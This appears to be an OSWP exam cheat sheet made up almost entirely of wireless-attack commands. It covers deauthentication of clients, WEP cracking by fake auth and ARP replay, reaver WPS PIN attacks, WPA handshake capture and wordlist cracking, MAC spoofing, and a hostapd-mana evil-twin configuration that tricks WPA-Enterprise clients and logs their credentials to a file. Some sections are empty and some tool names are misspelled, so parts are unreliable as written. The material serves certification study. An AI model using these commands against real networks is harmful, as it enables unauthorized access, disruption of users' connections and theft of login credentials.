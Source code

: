 # OSWP Cheat-sheet

## Monitoring
### Find all AP and connected devices
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band>
```

### Monitor target AP
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band> -c <channel> --bssid <bssid> -w <capture>
```
### Unhide ESSID
Set channel
```
iwconfig wlan0 channel <channel>
```
Catch beacon with ESSID (Hiden ESSID)
```
aireplay-ng -0 <deauth number> -a <AP MAC> <interface> 
aireplay-ng -0 <deauth number> -a <AP MAC> -c <Client MAC> <interface> #Some clients ignore broadcast deauthentications. If this is the case, you will need to send a deauthentication directed at the particular client.
```


## WEP attack

### Attack using Fake auth and ARP-replay (OPN)
```
aireplay-ng -1 60 -a <AP_MAC> -h <host_MAC> <interface> # Fake auth
aireplay-ng -3 -b <AP_MAC> -h <host_MAC> <interface> # ARP replay
aircrack-ng <*.cap>
```
### Interactive packet Replay (OPN)
```
aireplay-ng -1 60 -a <AP_MAC> -h <host_MAC> <interface> # Fake auth
aireplay-ng -2 -b <AP_MAC> -d ff:ff:ff:ff:ff:ff <interface>

```

## WPS attack
**Dependencies:** reaver

_Some APs have protections. AP might have PIN timeout after a series of failures. These APs then require either a timeout or a reset to remove the lock._

### Custom PIN association 
 
### Pixie Dust attack 
```
 reaver -i <interface> -b <AP_MAC> -K
```
 
### Bruteforce PIN attack 
```
sudo reaver -i <interface> -b <AP_MAC>
```
 
### Known PINs attack
```
reaver -i <interface> -b <AP_MAC> -p <PIN>
```
 
### Null PIN attack 
_Only a very few APs are vulnerable to this attack_
```
reaver -i <interface> -b <AP_MAC> -p "" -N
```

## WPA attack
### Handshake Capture (req. client) & Cracking
```
airdump-ng -c <channel> --bssid <AP_MAC> -w <capture> <interface>
aircrack-ng -a 2 -b <AP_MAC> -w <wordlist> <capture>
```
### PMKID Capture (client-less) & Cracking
```

```

## WPA Enterprise



## Connect to AP

### Open
```
iw <interface> connect <ESSID>
dhclient <interface>
```

### WEP
```
iw <interface> connect <ESSID> key 0:<key>
dhclient <interface>
```

### WPA2

Dependencies: wpasupplicant
```

wpa_passphrase "<ESSID>" <key> | sudo tee /etc/wpa_supplicant.conf
wpa_supplicant -B -c /etc/wpa_supplicant.conf -i <interface>
dhclient <interface>
```

### WPA enterprise

```
# SSID of the AP
ssid=Amaze_LLC

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan1
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```



mana.eap_user
```
*     PEAP,TTLS,TLS,FAST,MD5,GTC
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```


```
sudo dhclient <interface>
```

## Other
### MAC-spoofing
```
ip link set dev <interface> down
ip link set dev <interface> address <XX:XX:XX:XX:XX:XX>
ip link set dev <interface> up
```
### Prepare Attacker PC (Monitor mode)
```
airmon-ng check kill
airmon-ng start <interface>
OR
iw dev <interface> set monitor none
```
### Back to normal modee (Managed mode)
```
airmon-ng stop <Monitor interface>
systemctl start wpa_supplicant
systemctl start NetworkManager
```
### No associated devices
```
aireply-ng -0 100 -e <ESSID> <interface>
```
